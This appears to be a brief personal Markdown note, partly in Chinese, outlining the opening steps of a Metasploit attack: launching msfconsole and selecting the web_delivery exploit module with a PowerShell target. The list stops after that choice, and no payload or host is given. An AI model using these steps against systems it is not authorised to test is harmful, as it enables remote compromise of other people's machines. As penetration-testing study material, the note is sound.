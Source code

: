 ### metasploit入侵成功
#### https://ithelp.ithome.com.tw/articles/10225445
* sudo  msfconsole
* search web_delivery
*  use exploit/multi/script/web_delivery
*  設定攻擊的類型，我們要選擇 2 PSH
*  
